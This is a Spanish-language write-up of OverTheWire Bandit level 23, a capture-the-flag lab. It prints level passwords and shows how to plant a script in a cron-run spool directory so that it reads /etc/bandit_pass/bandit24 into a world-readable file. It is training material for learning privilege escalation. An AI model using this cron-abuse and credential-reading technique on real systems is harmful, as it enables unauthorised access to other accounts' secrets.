 # Level 23 - 24

## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso al nivel
Contraseña para el nivel 23: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solución
---
bandit23@bandit:~$ ls -la
total 20
drwxr-xr-x  2 root root 4096 Feb 21 22:02 .
drwxr-xr-x 70 root root 4096 Feb 21 22:04 ..
-rw-r--r--  1 root root  220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root root 3771 Jan  6  2022 .bashrc
-rw-r--r--  1 root root  807 Jan  6  2022 .profile
bandit23@bandit:~$  ls /etc/cron.d
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mkdir /tmp/kd
mkdir: cannot create directory ‘/tmp/kd’: File exists
bandit23@bandit:~$ ~$
~$: command not found
bandit23@bandit:~$
bandit23@bandit:~$ mkdir /tmp/kd
mkdir: cannot create directory ‘/tmp/kd’: File exists
bandit23@bandit:~$ cd /tmp/kd
bandit23@bandit:/tmp/kd$ echo "cat /etc/bandit_pass/bandit24 >
> /tmp/kd/password" > script.sh
bandit23@bandit:/tmp/kd$ cat script.sh
cat /etc/bandit_pass/bandit24 >
/tmp/kd/password
bandit23@bandit:/tmp/kd$ chmod +x script.sh
bandit23@bandit:/tmp/kd$ touch password
bandit23@bandit:/tmp/kd$ chmod 666 password
bandit23@bandit:/tmp/kd$ ls -la
total 124
drwxrwxr-x    2 bandit23 bandit23   4096 Mar  4 21:28 .
drwxrwx-wt 1032 root     root     114688 Mar  5 21:22 ..
-rw-rw-rw-    1 bandit23 bandit23      0 Mar  5 21:22 password
-rwxrwxr-x    1 bandit23 bandit23     50 Mar  5 21:21 script.sh
bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/kd$ ls -la
total 124
drwxrwxr-x    2 bandit23 bandit23   4096 Mar  4 21:28 .
drwxrwx-wt 1032 root     root     114688 Mar  5 21:23 ..
-rw-rw-rw-    1 bandit23 bandit23      0 Mar  5 21:22 password
-rwxrwxr-x    1 bandit23 bandit23     50 Mar  5 21:21 script.sh
bandit23@bandit:/tmp/kd$ date
Sun Mar  5 09:23:05 PM UTC 2023
bandit23@bandit:/tmp/kd$ ls -la
total 124
drwxrwxr-x    2 bandit23 bandit23   4096 Mar  4 21:28 .
drwxrwx-wt 1032 root     root     114688 Mar  5 21:23 ..
-rw-rw-rw-    1 bandit23 bandit23      0 Mar  5 21:22 password
-rwxrwxr-x    1 bandit23 bandit23     50 Mar  5 21:21 script.sh
bandit23@bandit:/tmp/kd$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

---
## Notas adicionales
mkdir:
chmod:
touch:

## Referencias


